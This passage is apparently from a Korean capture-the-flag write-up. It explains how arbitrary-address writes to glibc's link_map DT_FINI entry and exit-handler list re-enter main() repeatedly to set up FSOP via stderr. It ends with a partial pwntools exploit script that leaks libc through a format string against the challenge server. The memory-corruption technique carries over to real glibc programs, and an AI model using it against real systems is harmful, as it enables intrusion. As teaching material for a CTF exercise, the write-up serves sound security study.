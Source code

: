 `ef_on`과 `ef_at`의 경우에는 `flavor`의 값을 수정하지 않고 등록된 함수를 호출하는 역할을 한다.

그렇기 때문에 2번째 `main()` 에서의 AAW를 통해 `idx`값을 1, `flavor` 값을 `ef_on` 혹은 `ef_at` 으로 수정하게 된다면, 3번째 `main()` 부터는 `idx`값만 1로 수정하면 `main()`을 계속 호출할 수 있게 된다.

즉, 3번째 `main()`부터 AAW를 1번씩 추가로 진행할 수 있는 것이다.

정리하면 다음과 같다.

- 1st main()
    
    AAW1: `map->l_info[DT_FINI]` 값을 writable address로 수정
    
    AAW2: 수정한 writable address기준, `d_un.d_ptr`에 해당하는 주소에 `main()` offset 값을 write한다.
    
- 2nd main()
    
    AAW1: `initial->idx` 값을 1로 수정한다.
    
    AAW2: `initial->fns[0]` entry의 `flavor` 값을 `ef_on` 혹은 `ef_at` 으로 수정한다.
    
- 3rd main() — final
    
    AAW1: `initial->idx` 값을 1로 수정한다.
    
    AAW2: 원하는 주소의 값을 수정
    

### FSOP

3rd main()부터 `stderr`를 덮어서 FSOP를 준비한다.

마지막 main()에서는 `initial->idx`값을 수정하지만 않으면 알아서 `_IO_flush()`가 호출되어 성공적으로 exploit을 할 수 있다.

### 익스플로잇 코드

```python
from pwn import *

# r = process("./chal_patched")
# r = remote("127.0.0.1", 31337)
r = remote("guess-who-stack.harkonnen.b01lersc.tf", 8443, ssl=True)

def AAW2(addr1, val1, addr2, val2):
    r.sendlineafter(b"come out... ", str(addr1).encode() + b" " + str(val1).encode())
    r.sendlineafter(b"jokin now... ", str(addr2).encode() + b" " + str(val2).encode())
    
r.sendlineafter(b"First shot...", b"%13$p")
r.recvuntil(b"heavy ")

libc_base = int(r.recvline()[:-1], 16) - 0x28150
ld_base = libc_base + 0x211000
r.success(f"libc base: {hex(libc_base)}")
r.success(f"ld base: {hex(ld_base)}")

### 1st main() ###
# overwrite map->l_info[DT_FINI]
# such that map->l_addr + fini->d_un.d_ptr = main
AAW2(ld_base + 0x38378, libc_base + 0x1ff690, libc_base + 0x1ff698, 0x11e9)

### 2nd main() ###
r.sendlineafter(b"First shot...", b"AAAAA")

initial = libc_base + 0x2001a0

# initial->idx = 1, initial->fns[0].flavor = ef_at
AAW2(initial + 0x8, 1, initial + 0x10, 3)

### 3rd main() ###
stderr = libc_base + 0x1ff6c0
```